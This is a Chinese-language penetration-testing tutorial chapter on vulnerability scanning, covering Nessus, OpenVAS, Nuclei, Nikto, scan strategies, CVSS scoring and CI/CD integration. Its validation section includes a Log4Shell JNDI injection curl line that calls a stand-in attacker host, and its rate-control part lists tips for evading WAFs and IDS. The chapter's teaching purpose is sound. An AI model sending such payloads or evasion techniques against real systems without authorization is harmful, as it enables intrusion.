






## 2.2 漏洞扫描与分析

漏洞扫描是渗透测试中承上启下的关键环节——它基于信息收集阶段获取的目标情报，系统性地发现目标系统中存在的安全缺陷，并为后续的漏洞利用提供精确的攻击面。如果说信息收集是"绘制地图"，那么漏洞扫描就是"标注弱点"。

一个专业的渗透测试人员不仅要会用工具跑扫描，更要理解扫描器的工作原理、能够判断扫描结果的可信度、知道何时工具会失灵需要手工检测。本节将从扫描原理、主流工具深度实操、扫描策略设计、结果分析与验证、到常见陷阱，全面覆盖漏洞扫描的知识体系。

### 2.2.1 漏洞扫描的基本原理

漏洞扫描器的核心工作原理是：向目标发送特定的探测数据包，根据响应特征判断目标是否存在已知漏洞。不同类型的扫描器使用不同的检测策略。

#### 漏洞扫描的三种检测模式

| 检测模式 | 工作原理 | 优点 | 缺点 | 典型工具 |
|---------|---------|------|------|---------|
| **基于版本匹配** | 识别目标软件版本号，与漏洞数据库中的受影响版本进行匹配 | 速度快、误报少 | 无法发现配置类漏洞，依赖版本信息准确性 | Nmap NSE、Vulners |
| **基于漏洞特征（POC验证）** | 向目标发送特定的攻击载荷，根据响应判断漏洞是否存在 | 准确率高、可直接验证 | 可能影响目标稳定性，部分漏洞无法无害化验证 | Nuclei、Metasploit辅助模块 |
| **基于行为分析** | 分析目标的响应行为模式，检测异常配置和不安全实践 | 能发现逻辑漏洞和配置问题 | 误报率较高，需要人工复核 | Nikto、Burp Scanner |

#### 漏洞扫描的层次划分



在实际渗透测试中，这四个层次的扫描通常需要依次进行，每一层的发现都会为下一层提供线索。例如，端口扫描发现目标运行了Apache Tomcat 9.0.50，应用层扫描就应重点关注该版本的已知CVE。

### 2.2.2 主流漏洞扫描工具深度实操

#### Nessus —— 企业级漏洞扫描的行业标准

Nessus 由 Tenable 公司开发维护，是全球部署最广泛的漏洞扫描器，其漏洞插件库（Plugins）涵盖超过 180,000 个 CVE，并且每天更新。Nessus 的核心优势在于其极低的误报率和详尽的报告能力。

**Nessus 版本选择：**

| 版本 | 价格 | 适用场景 | 并发扫描数 | 功能限制 |
|------|------|---------|-----------|---------|
| Nessus Essentials（免费） | 免费 | 个人学习、小型网络 | 最多16个IP | 无合规扫描、无定制报告 |
| Nessus Professional | ~$3,990/年 | 企业安全团队 | 无限制 | 无集中管理 |
| Nessus Expert | ~$5,990/年 | 高级安全评估 | 无限制 | 含外部攻击面扫描 |
| Tenable.io | 按资产计费 | 大型企业 | 无限制 | SaaS平台，含资产管理 |

**Nessus 安装与基本使用：**

```bash
# Debian/Ubuntu 安装 Nessus
wget https://www.tenable.com/downloads/api/v1/public/pages/nessus/downloads/[版本号]/nessus-[版本]-debian10_amd64.deb
sudo dpkg -i nessus-[版本]-debian10_amd64.deb

# 启动 Nessus 服务
sudo systemctl start nessusd

# 访问 Web 界面
# https://localhost:8834
# 首次访问需要注册并激活许可证
```

**Nessus 扫描策略配置要点：**

在创建扫描任务时，扫描策略的选择直接决定了扫描的深度和效率。以下是关键配置项及其影响：

- **发现扫描（Discovery）**：仅进行主机发现和端口扫描，不进行漏洞检测。适合资产清查阶段。
- **基本网络扫描（Basic Network Scan）**：自动检测操作系统、开放端口和已知漏洞。适合大多数场景。
- **高级扫描（Advanced Scan）**：完全自定义，可精确控制端口范围、检测插件、认证方式等。适合专业渗透测试。
- **Web应用扫描**：专门针对Web应用的漏洞检测，包含OWASP Top 10的检测能力。

```bash
# 使用 Nessus CLI 进行扫描（Nessus 8.x+）
# 创建扫描任务
/opt/nessus/sbin/nessuscli scan new \
  --name "内网扫描-2026Q2" \
  --template "advanced" \
  --targets "192.168.1.0/24"

# 导出扫描报告
/opt/nessus/sbin/nessuscli report export \
  --format nessus \
  --name "内网扫描-2026Q2" \
  --output /tmp/scan_results.nessus
```

**降低误报的认证扫描：**

未认证的扫描只能发现网络层面的漏洞，而大量漏洞（如本地提权、缺失补丁）需要在目标系统上拥有凭据才能检测到。配置认证扫描能将漏洞发现率提升 40%-60%。

```bash
# 在扫描配置中添加 SSH 认证（Linux 目标）
# Settings -> Credentials -> SSH
# 认证方式: 密码 或 密钥
# 用户名: pentester
# 密钥文件: /path/to/id_rsa

# 在扫描配置中添加 SMB 认证（Windows 目标）
# Settings -> Credentials -> Windows
# 认证方式: 密码
# 域: COMPANY
# 用户名: pentester
# 密码: ********
```

#### OpenVAS —— 开源漏洞扫描的旗舰

OpenVAS（Open Vulnerability Assessment Scanner）是 Greenbone Vulnerability Management（GVM）框架的核心组件，提供与 Nessus 相当的漏洞检测能力，且完全开源免费。

**架构组成：**



**快速部署 OpenVAS（Docker 方式）：**

```bash
# 使用 Docker 部署 Greenbone Community Edition
docker run -d \
  --name gvm \
  -p 9392:9392 \
  -p 9390:9390 \
  -p 9391:9391 \
  -e PASSWORD=admin \
  --cap-add SYS_ADMIN \
  securecompliance/gvm

# 首次启动需要等待 NVT Feed 更新（约 15-30 分钟）
# 访问 https://localhost:9392
# 默认账号: admin / admin
```

**使用 GMP 协议进行命令行扫描：**

```bash
# GMP（Greenbone Management Protocol）是 OpenVAS 的命令行管理协议
# 创建目标
omp -u admin -w admin -X '<create_target><name>Web服务器</name><hosts>192.168.1.100</hosts></create_target>'

# 创建并启动扫描任务
omp -u admin -w admin -X '<create_task><name>Web扫描</name><target id="target-id"/><config id="config-id"/></create_task>'

# 更常用的方式是通过 gsad Web 界面操作
```

**OpenVAS 与 Nessus 的对比：**

| 对比维度 | Nessus | OpenVAS |
|---------|--------|---------|
| 价格 | 商业授权（免费版功能受限） | 完全开源免费 |
| 漏洞库更新速度 | 极快（通常CVE公开后数小时） | 较快（通常延迟1-3天） |
| 误报率 | 业界最低 | 中等（需更多人工验证） |
| Web界面 | 简洁直观 | 功能全面但稍显复杂 |
| 扫描速度 | 快 | 中等 |
| 报告质量 | 优秀，支持多种导出格式 | 良好，可定制 |
| 技术支持 | 官方商业支持 | 社区支持 |
| 适用场景 | 企业环境、合规审计 | 学习研究、中小团队 |

#### Nuclei —— 模板驱动的快速漏洞扫描

Nuclei 由 ProjectDiscovery 团队开发，采用 YAML 模板定义漏洞检测逻辑，社区维护了超过 8,000 个检测模板。Nuclei 的最大优势是速度快——它使用 Go 语言编写，支持高并发，非常适合大规模资产的快速扫描。

**Nuclei 安装与模板管理：**

```bash
# 安装 Nuclei
go install -v github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest

# 更新模板库（首次使用必须执行）
nuclei -update-templates

# 模板库位置
ls ~/.nuclei-templates/
# 结构：
#   http/        — HTTP 协议检测模板
#   network/     — TCP/UDP 协议检测模板
#   dns/         — DNS 协议检测模板
#   ssl/         — TLS/SSL 检测模板
#   code/        — 本地代码执行检测模板
#   workflows/   — 多步骤工作流模板
```

**Nuclei 常用扫描命令：**

```bash
# 基础扫描：对单个目标执行全部模板
nuclei -u https://target.com

# 批量扫描：从文件读取目标列表
nuclei -l targets.txt -o results.txt

# 使用指定严重级别的模板
nuclei -u https://target.com -severity critical,high

# 使用指定标签的模板
nuclei -u https://target.com -tags cve,rce,sqli

# 限制并发数和速率（避免对目标造成压力）
nuclei -u https://target.com -c 10 -rl 50

# 仅检测不验证（降低对目标的影响）
nuclei -u https://target.com -mhe 10

# 输出 JSON 格式便于后续处理
nuclei -u https://target.com -json -o results.json

# 使用特定模板目录
nuclei -u https://target.com -t http/vulnerabilities/

# 排除特定标签的模板
nuclei -u https://target.com -exclude-tags dos,fuzzing
```

**编写自定义 Nuclei 模板：**

当社区模板无法覆盖特定漏洞时，需要编写自定义模板。以下是一个检测特定版本 Apache Struts2 RCE 的模板示例：

```yaml
id: CVE-2024-XXXXX-struts2-rce
info:
  name: Apache Struts2 RCE - CVE-2024-XXXXX
  author: pentester
  severity: critical
  description: Apache Struts2 存在远程代码执行漏洞
  reference:
    - https://nvd.nist.gov/vuln/detail/CVE-2024-XXXXX
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
    cvss-score: 10.0
    cve-id: CVE-2024-XXXXX
  tags: struts,rce,cve,cve2024

http:
  - method: GET
    path:
      - "{{BaseURL}}/index.action"
    headers:
      Content-Type: "application/x-www-form-urlencoded"
    matchers-condition: and
    matchers:
      - type: word
        words:
          - "Command_Executed_Successfully"
        part: body
      - type: status
        status:
          - 200
    extractors:
      - type: regex
        regex:
          - "uid=[0-9]+\\([a-z]+\\)"
```

**与信息收集工具链集成：**

Nuclei 的最大威力在于与其他 ProjectDiscovery 工具的无缝集成：

```bash
# Subfinder（子域名发现） + httpx（HTTP探测） + Nuclei（漏洞扫描）
subfinder -d target.com -silent | httpx -silent | nuclei -severity critical,high

# 完整攻击面扫描流水线
# 1. 子域名发现
subfinder -d target.com -silent > subdomains.txt
# 2. DNS 解析筛选存活域名
cat subdomains.txt | dnsx -silent -a > resolved.txt
# 3. HTTP 探测获取状态码和标题
cat resolved.txt | httpx -silent -title -status-code -tech-detect > alive.txt
# 4. 漏洞扫描
cat alive.txt | nuclei -severity critical,high,medium -o vulns.txt
```

#### Nikto —— Web 服务器专项扫描

Nikto 是一款经典的 Web 服务器扫描工具，专注于检测 Web 服务器的配置问题、危险文件和已知漏洞。

```bash
# 基础扫描
nikto -h https://target.com

# 指定端口
nikto -h target.com -p 8080,8443

# 使用代理（配合 Burp Suite 分析流量）
nikto -h target.com -useproxy http://127.0.0.1:8080

# 使用认证
nikto -h target.com -id admin:password

# 扫描多个目标
nikto -h targets.txt -o report.html -Format html

# 调整扫描速度（避免触发 WAF）
nikto -h target.com -Tuning x6789 -Pause 2

# Tuning 参数说明：
# 1 - 文件上传检测
# 2 - 有趣的文件/目录
# 3 - 信息泄露
# 4 - XSS/Script 注入
# 5 - 远程文件检索
# 6 - 命令执行
# 7 - SQL 注入
# 8 - 认证绕过
# 9 - 会话固定
# x - 反向调优选项
```

#### 其他重要扫描工具速查

| 工具名称 | 专注领域 | 核心特点 | 典型命令 |
|---------|---------|---------|---------|
| **Masscan** | 超高速端口扫描 | 6分钟扫完全网IPv4，异步传输 | `masscan 0.0.0.0/0 -p80 --rate 100000` |
| **Nmap NSE** | 端口扫描+漏洞检测 | 600+ NSE 脚本覆盖常见漏洞 | `nmap -sV --script vuln target` |
| **ZAP (OWASP)** | Web 应用扫描 | 开源替代 Burp Suite，支持自动化扫描 | GUI操作或 `zap-cli quick-scan` |
| **SQLMap** | SQL 注入专项 | 自动化SQL注入检测与利用 | `sqlmap -u "http://t/page?id=1" --batch` |
| **WPScan** | WordPress 专项 | WordPress 核心/插件/主题漏洞扫描 | `wpscan --url https://target.com --enumerate vp` |
| **Nuclei** | 通用漏洞扫描 | 模板驱动，高速并发 | `nuclei -u target.com -severity critical` |
| **SSLyze** | TLS/SSL 配置 | 检测弱加密、证书问题 | `sslyze target.com` |
| **Trivy** | 容器/依赖漏洞 | 镜像漏洞、SBOM、密钥泄露 | `trivy image nginx:latest` |
| **Semgrep** | SAST 代码扫描 | 语义级代码漏洞分析 | `semgrep --config auto ./src` |

### 2.2.3 扫描策略设计

盲目地对目标全端口全漏洞扫描不仅浪费时间，还可能触发目标的安全防护机制。一个好的扫描策略应该根据目标类型、测试范围和时间约束来定制。

#### 扫描流程全景



#### 针对不同目标类型的扫描策略

**Web 应用扫描策略：**

```bash
# 第一轮：快速发现
nuclei -l web_targets.txt -severity critical,high -tags rce,sqli,ssti -c 20

# 第二轮：完整扫描
nuclei -l web_targets.txt -severity critical,high,medium -c 50

# 第三轮：专项检测
# SQL 注入
sqlmap -m web_targets.txt --batch --level 3 --risk 2

# 目录遍历和敏感文件
feroxbuster -u https://target.com -w /usr/share/seclists/Discovery/Web-Content/common.txt

# 子域名枚举 + 全面扫描
subfinder -d target.com -silent | httpx -silent | tee alive_urls.txt
cat alive_urls.txt | nuclei -o full_results.txt
```

**内网扫描策略：**

```bash
# 第一轮：快速存活探测
nmap -sn 192.168.1.0/24 -oG alive_hosts.txt

# 第二轮：快速端口扫描（Top 1000 端口）
nmap -sS -T4 --top-ports 1000 -iL alive_hosts.txt -oX quick_ports.xml

# 第三轮：服务版本识别
nmap -sV -sC -p $(cat quick_ports.xml | grep portid | cut -d'"' -f2 | sort -u | tr '\n' ',') -iL alive_hosts.txt -oX service_versions.xml

# 第四轮：漏洞扫描
nmap --script vuln -iL alive_hosts.txt -oX vuln_results.xml

# 第五轮：SMB 专项（如果存在 445 端口）
nmap --script smb-vuln* -p 445 -iL smb_hosts.txt
crackmapexec smb 192.168.1.0/24 --shares
```

**API 接口扫描策略：**

```bash
# 1. 收集 API 端点
katana -u https://api.target.com -jc -d 5 -o api_endpoints.txt

# 2. 使用通用模板扫描
nuclei -l api_endpoints.txt -tags api -severity critical,high

# 3. 使用 Burp Suite 进行深度 API 测试
# 导入 OpenAPI/Swagger 文档进行自动化测试
# 使用 Param Miner 发现隐藏参数

# 4. 速率限制和认证测试
ffuf -u https://api.target.com/FUZZ -w api_wordlist.txt -H "Authorization: Bearer TOKEN" -mc 200,201,403
```

#### 扫描时间与速率控制

```bash
# Nmap 速率控制
nmap -T0 target  # 极慢（IDS 绕过）
nmap -T1 target  # 慢速
nmap -T2 target  # 正常
nmap -T3 target  # 快速（默认）
nmap -T4 target  # 激进
nmap -T5 target  # 疯狂（可能丢包）

# Nuclei 速率控制
nuclei -u target.com -c 25 -rl 100 -mhe 10
# -c 25: 25个并发模板
# -rl 100: 每秒最多100个请求
# -mhe 10: 最多10次HTTP错误后停止

# 避免触发 WAF 的实用技巧：
# 1. 使用随机 User-Agent
# 2. 降低并发数和请求速率
# 3. 使用代理池轮换 IP
# 4. 在非工作时间进行扫描
# 5. 将大规模扫描拆分为多个小任务
```

### 2.2.4 漏洞分析与验证

自动化扫描的结果只是起点，而非终点。扫描器报告的漏洞中通常包含 20%-40% 的误报，同时可能遗漏一些需要手动发现的逻辑漏洞。漏洞分析与验证是将扫描结果转化为可靠情报的关键步骤。

#### 漏洞验证四步流程



**第一步：漏洞确认——排除误报**

当扫描器报告一个漏洞时，首先要做的是验证其真实性，而不是盲目相信工具的输出。

```bash
# 查阅 CVE 详情
# NVD（国家漏洞数据库）是权威的 CVE 信息来源
# https://nvd.nist.gov/vuln/detail/CVE-2024-XXXXX

# 查询漏洞利用数据库
# Exploit-DB: https://www.exploit-db.com/
searchsploit apache struts2 remote code execution

# 查看 Metasploit 是否有对应模块
msfconsole -q -x "search cve:2024; exit"

# 查看 Nuclei 模板是否存在
ls ~/.nuclei-templates/http/cves/ | grep -i CVE-2024
```

验证漏洞真实性的关键判断因素：

1. **版本精确匹配**：扫描器检测到的版本是否精确匹配 CVE 描述中的受影响版本范围？注意区分"9.0.50受影响"和"9.0.50修复"的差异。
2. **配置依赖性**：许多漏洞只在特定配置下可触发（如开启了某个模块、使用了特定的 JDK 版本）。确认目标的实际配置是否满足漏洞触发条件。
3. **补丁状态**：CVE 公布后，厂商可能已经发布了修复补丁。检查目标是否已应用了补丁。
4. **PoC 可用性**：是否有公开的 PoC 代码？PoC 是否针对目标的版本和架构？

**第二步：环境分析——评估利用条件**

```bash
# 识别目标的精确版本信息
nmap -sV -p 80 target.com  # 获取服务版本

# 检查目标的操作系统和内核版本（已获取 shell 的情况下）
cat /etc/os-release
uname -a

# 检查目标的运行环境（Web应用）
# 获取 HTTP 响应头中的技术栈信息
curl -I https://target.com

# 检查目标的网络架构（是否在 DMZ、是否有 WAF）
traceroute target.com
# 检查是否经过 CDN/WAF
dig target.com +short
```

**第三步：POC 验证——安全复现漏洞**

漏洞验证必须在安全可控的条件下进行，避免对目标系统造成损害。

```bash
# 使用 searchsploit 获取 PoC
searchsploit -m 50383  # 下载特定 PoC 到当前目录

# 使用 Metasploit 的 check 命令（非破坏性验证）
msf6> use exploit/multi/struts2_rest_xstream_oob
msf6> set RHOSTS target.com
msf6> check
# [*] target.com:8080 - The target is vulnerable.

# 使用 Nuclei 的验证模式
nuclei -u target.com -t http/cves/2024/CVE-2024-XXXXX.yaml -v

# 手动构造请求验证（以 Log4Shell 为例）
curl -H 'X-Api-Version: ${jndi:ldap://attacker.com/test}' https://target.com/
# 如果 attacker.com 收到 LDAP 查询请求，则漏洞存在
```

**第四步：影响评估——量化风险**

使用 CVSS（Common Vulnerability Scoring System）v3.1 评分体系量化漏洞风险：

| CVSS 分数 | 严重等级 | 含义 |
|-----------|---------|------|
| 9.0 - 10.0 | Critical（严重） | 可远程无需认证直接利用，可能导致系统完全沦陷 |
| 7.0 - 8.9 | High（高危） | 利用条件相对简单，影响范围较广 |
| 4.0 - 6.9 | Medium（中危） | 需要特定条件才能利用，影响有限 |
| 0.1 - 3.9 | Low（低危） | 利用难度高或影响小 |
| 0.0 | None（无） | 无直接安全影响 |

CVSS v3.1 评分的八个维度：



但 CVSS 分数并不等同于实际业务风险。一个 CVSS 9.8 的漏洞如果存在于一个隔离的测试环境中，其实际风险可能远低于一个 CVSS 7.5 但暴露在公网上的漏洞。因此，在评估时需要结合以下业务上下文因素：

- **资产重要性**：该系统是核心业务系统还是边缘辅助系统？
- **暴露面**：漏洞是否暴露在公网？是否有网络隔离？
- **数据敏感性**：系统存储或处理的数据是什么级别的？
- **可利用性**：漏洞是否有公开的 exploit？利用是否需要认证？
- **修复成本**：修复该漏洞需要多大的业务影响？

### 2.2.5 漏洞分类与常见漏洞库

#### OWASP Top 10 (2021) —— Web 应用最关键的安全风险

| 排名 | 漏洞类别 | 核心问题 | 典型扫描工具 |
|------|---------|---------|-------------|
| A01 | 失效的访问控制 | 越权访问、IDOR、目录遍历 | Burp Suite、Autorize |
| A02 | 加密机制失效 | 弱加密、明文传输、密钥泄露 | SSLyze、testssl.sh |
| A03 | 注入 | SQL注入、XSS、命令注入、SSTI | SQLMap、Dalfox、Commix |
| A04 | 不安全设计 | 业务逻辑缺陷、缺少威胁建模 | 手动测试为主 |
| A05 | 安全配置错误 | 默认凭证、目录列表、不必要服务 | Nikto、Nmap NSE |
| A06 | 过时或有漏洞的组件 | 使用已知漏洞的库和框架 | Trivy、npm audit、snyk |
| A07 | 身份识别和认证失败 | 弱口令、会话固定、暴力破解 | Hydra、Burp Intruder |
| A08 | 软件和数据完整性失败 | 不安全的反序列化、CI/CD 缺陷 | ysoserial、Semgrep |
| A09 | 安全日志和监控失败 | 缺少审计日志、无法检测攻击 | 配置审计 |
| A10 | 服务器端请求伪造 | SSRF 访问内部资源 | Gopherus、SSRFmap |

#### CVE、CNVD 和其他漏洞数据库

| 数据库 | 全称 | 覆盖范围 | 地址 |
|--------|------|---------|------|
| **CVE** | Common Vulnerabilities and Exposures | 全球通用标准 | https://cve.mitre.org/ |
| **NVD** | National Vulnerability Database | 美国NIST维护，含CVSS评分 | https://nvd.nist.gov/ |
| **CNVD** | 中国国家信息安全漏洞共享平台 | 国内漏洞为主 | https://www.cnvd.org.cn/ |
| **CNNVD** | 中国国家信息安全漏洞库 | 中国信息安全测评中心维护 | https://www.cnnvd.org.cn/ |
| **Exploit-DB** | Offensive Security漏洞库 | 含大量PoC和exploit | https://www.exploit-db.com/ |
| **GitHub Advisory** | GitHub安全公告 | 开源生态漏洞 | https://github.com/advisories |

### 2.2.6 扫描结果整合与去重

在实际项目中，渗透测试人员通常会同时使用多个扫描工具以获得更全面的覆盖。但多工具的结果会产生大量重复数据，需要进行整合和去重。

**结果整合脚本示例：**

```python
#!/usr/bin/env python3
"""多工具扫描结果整合器"""
import json
import csv
from collections import defaultdict

def parse_nuclei_json(filepath):
    """解析 Nuclei JSON 输出"""
    vulns = []
    with open(filepath) as f:
        for line in f:
            if not line.strip():
                continue
            result = json.loads(line)
            vulns.append({
                'source': 'nuclei',
                'host': result.get('host', ''),
                'vuln_id': result.get('template-id', ''),
                'name': result.get('info', {}).get('name', ''),
                'severity': result.get('info', {}).get('severity', ''),
                'url': result.get('matched-at', ''),
            })
    return vulns

def parse_nmap_xml(filepath):
    """解析 Nmap XML 输出（使用 python-nmap）"""
    import nmap
    nm = nmap.PortScanner()
    vulns = []
    # 解析逻辑...
    return vulns

def deduplicate(vulns):
    """按 host + vuln_id 去重"""
    seen = set()
    unique = []
    for v in vulns:
        key = f"{v['host']}:{v['vuln_id']}"
        if key not in seen:
            seen.add(key)
            unique.append(v)
    return unique

def group_by_severity(vulns):
    """按严重程度分组"""
    groups = defaultdict(list)
    for v in vulns:
        groups[v['severity']].append(v)
    return dict(groups)

if __name__ == '__main__':
    all_vulns = []
    all_vulns.extend(parse_nuclei_json('nuclei_results.json'))
    # 添加其他工具的结果...
    
    unique_vulns = deduplicate(all_vulns)
    grouped = group_by_severity(unique_vulns)
    
    print(f"总计发现 {len(all_vulns)} 条结果，去重后 {len(unique_vulns)} 个独立漏洞")
    for severity in ['critical', 'high', 'medium', 'low', 'info']:
        count = len(grouped.get(severity, []))
        print(f"  {severity.upper()}: {count}")
```

### 2.2.7 常见陷阱与反模式

在漏洞扫描实践中，以下错误非常常见，甚至经验丰富的测试者也容易犯：

**陷阱一：过度依赖工具，忽视手动测试**

自动化扫描器只能检测已知的、有明确特征的漏洞。大量的业务逻辑漏洞（如越权访问、支付逻辑缺陷、竞态条件）无法被工具自动发现。建议将扫描结果视为"底线"，而非全部。

**陷阱二：在生产环境盲目进行破坏性扫描**

部分漏洞验证（如缓冲区溢出、拒绝服务测试）可能导致目标服务崩溃。在生产环境中必须：
- 提前与目标方确认扫描窗口
- 避免使用可能造成拒绝服务的检测模块
- 准备好回滚方案
- 使用 `--safe` 参数或仅使用非破坏性脚本

```bash
# Nmap: 使用非破坏性脚本
nmap -sV --script "default and not (dos or intrusive)" target

# Nikto: 跳过可能导致 DoS 的测试
nikto -h target.com -Tuning -9

# Nuclei: 排除 DoS 和 fuzzing 模板
nuclei -u target.com -exclude-tags dos,fuzzing,destructive
```

**陷阱三：扫描结果未经验证就写入报告**

直接将扫描器输出复制到渗透测试报告中是极不专业的行为。扫描器的误报会严重损害测试报告的可信度。每一条报告的漏洞都必须经过人工验证。

**陷阱四：忽略扫描对目标网络的影响**

大规模扫描可能产生大量网络流量，触发目标的 IDS/IPS 告警，甚至导致网络拥塞。正确的做法：
- 先小范围验证扫描参数，确认无异常后再扩大范围
- 监控目标网络的响应延迟
- 使用流量控制参数限制扫描速率
- 与目标方保持沟通，确认未造成影响

**陷阱五：只关注高危漏洞，忽视低危漏洞的组合利用**

单个低危漏洞可能影响有限，但多个低危漏洞的组合利用可能造成严重后果。例如：
- 信息泄露（低危）+ 弱口令（中危）= 完全控制
- 目录遍历（中危）+ 配置文件泄露（中危）= 获取数据库凭据

在漏洞分析时，应评估漏洞之间的关联性和组合利用的可能性。

### 2.2.8 进阶：漏洞扫描的自动化与 CI/CD 集成

在现代 DevSecOps 流程中，漏洞扫描不应是渗透测试的专属环节，而应集成到软件开发的全生命周期中。

**CI/CD 集成示例（GitHub Actions）：**

```yaml
name: Security Scan
on:
  push:
    branches: [main]
  pull_request:
    branches: [main]
  schedule:
    - cron: '0 2 * * 1'  # 每周一凌晨2点

jobs:
  sast:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Semgrep SAST
        uses: returntocorp/semgrep-action@v1
        with:
          config: >-
            p/owasp-top-ten
            p/security-audit

  dependency-check:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Trivy Dependency Scan
        uses: aquasecurity/trivy-action@master
        with:
          scan-type: 'fs'
          severity: 'CRITICAL,HIGH'
          exit-code: '1'

  dast:
    runs-on: ubuntu-latest
    needs: [sast, dependency-check]
    steps:
      - name: Nuclei DAST
        uses: projectdiscovery/nuclei-action@main
        with:
          target: ${{ secrets.STAGING_URL }}
          severity: critical,high
          tags: oast,cve
```

**漏洞管理生命周期：**



### 2.2.9 本节小结

漏洞扫描与分析是渗透测试中最具技术含量的环节之一。一个成熟的渗透测试人员需要掌握以下能力：

1. **工具链建设**：不是只会用一个扫描器，而是能根据场景选择最合适的工具组合
2. **策略设计**：能为不同类型的目标设计高效的扫描策略，平衡覆盖率、速度和隐蔽性
3. **结果分析**：能从海量扫描结果中识别真正的漏洞，排除误报，发现组合利用机会
4. **漏洞验证**：能通过 PoC 复现漏洞，提供确凿的证据
5. **风险评估**：能结合业务上下文评估漏洞的实际风险，而非机械地套用 CVSS 分数
6. **自动化思维**：能将重复性的扫描工作自动化，集成到 CI/CD 流程中

工具只是手段，理解漏洞的本质才是核心。当扫描器失灵时，你需要能够手工构造检测逻辑；当误报泛滥时，你需要能够基于经验快速筛选；当面对全新目标时，你需要能够从零设计扫描方案。这就是漏洞扫描从"会用工具"到"专业分析"的跨越。
